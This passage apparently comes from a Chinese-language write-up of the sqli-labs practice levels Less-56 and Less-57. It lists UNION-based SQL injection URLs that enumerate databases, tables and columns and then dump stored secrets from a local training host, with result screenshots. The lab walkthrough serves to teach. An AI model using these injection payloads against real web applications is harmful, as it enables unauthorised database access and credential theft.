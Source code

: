 **查看字段**<br />http://www.web.com/sql/Less-56/?id=-1') union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='v35mb8m56l'--+<br />![](https://img-blog.csdnimg.cn/20200728093924515.png#crop=0&crop=0&crop=1&crop=1&id=p5XT3&originHeight=184&originWidth=369&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看账户和密码**<br />http://www.web.com/sql/Less-56/?id=-1') union select 1,database(),group_concat(concat_ws('~',sessid,secret_PG94)) from challenges.v35mb8m56l--+<br />![](https://img-blog.csdnimg.cn/20200728094103500.png#crop=0&crop=0&crop=1&crop=1&id=ndS3p&originHeight=86&originWidth=685&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将得到的密码输入到下面的方框中进行验证**<br />![](https://img-blog.csdnimg.cn/20200728094129141.png#crop=0&crop=0&crop=1&crop=1&id=UzwgM&originHeight=40&originWidth=401&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**成功**<br />![](https://img-blog.csdnimg.cn/20200728094143160.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=HhocB&originHeight=248&originWidth=794&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# Sqli-labs-Less-57
![](https://img-blog.csdnimg.cn/20200728094444432.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=GBwu1&originHeight=464&originWidth=1104&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
本关对输入次数的限制为14次

**查找注入点，花费了两次机会**<br />http://www.web.com/sql/Less-57/?id=1"--+<br />![](https://img-blog.csdnimg.cn/20200728094642873.png#crop=0&crop=0&crop=1&crop=1&id=mh6j6&originHeight=153&originWidth=305&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库和所有数据库**<br />http://www.web.com/sql/Less-57/?id=-1" union select 1,database(),group_concat(schema_name) from information_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200728094803137.png#crop=0&crop=0&crop=1&crop=1&id=FssAC&originHeight=78&originWidth=836&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />http://www.web.com/sql/Less-57/?id=-1" union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema='challenges'--+<br />![](https://img-blog.csdnimg.cn/20200728094900497.png#crop=0&crop=0&crop=1&crop=1&id=ofHNz&originHeight=174&originWidth=281&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有字段**<br />http://www.web.com/sql/Less-57/?id=-1" union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='84p3km1zad'--+<br />![](https://img-blog.csdnimg.cn/20200728095008595.png#crop=0&crop=0&crop=1&crop=1&id=ZHs7o&originHeight=178&originWidth=335&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看账户和密码**<br />http://www.web.com/sql/Less-57/?id=-1" union select 1,database(),group_concat(concat_ws('~',sessid,secret_0N9A)) from challenges.84p3km1zad--+<br />![](https://img-blog.csdnimg.cn/20200728095347105.png#crop=0&crop=0&crop=1&crop=1&id=VgVod&originHeight=87&originWidth=691&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将得到的密码输入到下面的方框中进行验证**<br />![](https://img-blog.csdnimg.cn/20200728095406147.png#crop=0&crop=0&crop=1&crop=1&id=iKNeQ&originHeight=71&originWidth=404&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**成功**<br />![](https://img-blog.csdnimg.cn/20200728095419146.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=qTHPg&originHeight=217&originWidth=773&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
